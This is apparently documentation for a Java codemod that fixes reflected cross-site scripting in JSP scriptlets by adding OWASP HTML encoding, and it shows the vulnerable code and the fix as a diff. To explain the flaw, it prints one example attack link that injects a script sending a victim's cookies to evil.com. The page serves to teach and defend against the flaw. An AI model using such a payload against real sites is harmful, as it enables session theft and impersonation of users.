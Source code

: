 ```yaml
---
title: "Encode Untrusted Scriptlet Contents"
sidebar_position: 1
---
```


## pixee:java/encode-jsp-scriptlet

| Importance | Review Guidance            | Requires Scanning Tool |
|------------|----------------------------|------------------------|
 | High       | Merge After Cursory Review | No                     |


This codemod encodes certain JSP scriptlets to fix what appear to be trivially exploitable [Reflected Cross-Site Scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting) vulnerabilities in JSP files. XSS is a vulnerability that is tricky to understand initially, but easy to exploit.

Consider the following example code:

```java
Welcome to our site <%= request.getParameter("name") %>
```

An attacker could construct a link with an HTTP parameter `name` containing malicious JavaScript and send it to the victims, and if they click it, cause it to execute in the victims' browsers in the domain context. This could allow attackers to exfiltrate session cookies and spoof their identity, perform actions on victim's behalf, and more generally "do anything" as that user. Here's an example of such an evil link used by attacker to leak the victim's cookies back to their evil site logs:

`https://bank.com/search?name=<script>document.location='http://evil.com/?'+document.cookie</script>`

Our changes introduce an HTML-encoding mechanism that look something like this:

```diff
-Welcome to our site <%= request.getParameter("name") %>
+Welcome to our site <%= org.owasp.encoder.Encode.forHtml(request.getParameter("name")) %>
```

This codemod encodes HTML control characters that attackers would use to execute code. 

If you have feedback on this codemod, [please let us know](mailto:feedback@pixee.ai)!

## F.A.Q. 

### Why is this codemod marked as Merge After Cursory Review?

This change is safe and effective in almost all situations. However, depending on the context in which the scriptlet is rendered (e.g., inside an HTML tag, in JavaScript, unquoted contexts, etc.), you may need to use another encoding method. Check out the [OWASP XSS Prevention CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) to learn more about these cases and other controls you may need in exceptional cases. The security control introduced from OWASP used has `forHtml()` variants for all situations (e.g., `forJavaScript()`, `forCssString()`).

## Codemod Settings

N/A

## References
* [Security Control (OWASP Encode.java) source code](https://github.com/OWASP/owasp-java-encoder/blob/main/core/src/main/java/org/owasp/encoder/Encode.java#L143)
* [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
* [https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
* [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
